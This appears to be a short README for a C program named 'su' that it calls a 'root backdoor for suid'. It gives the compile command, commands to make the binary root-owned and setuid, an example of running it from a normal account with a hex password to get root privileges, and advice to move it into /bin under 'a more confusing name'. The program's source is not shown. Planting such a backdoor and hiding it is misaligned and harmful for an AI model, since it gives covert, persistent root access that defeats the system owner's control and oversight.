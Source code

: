 # su
root backdoor for suid

Compile
gcc -O2 -Wall -Wextra -o su su.c

Execute the execution with the root account：
~~~
    sudo chown root:root su
    sudo chmod u+s su
~~~
After that, you can use a normal account to get root privileges
~~~
  ./su 88e280e118c459ada723c50625d172c9
~~~

You can move the program to the /bin directory and change it to a more confusing name.
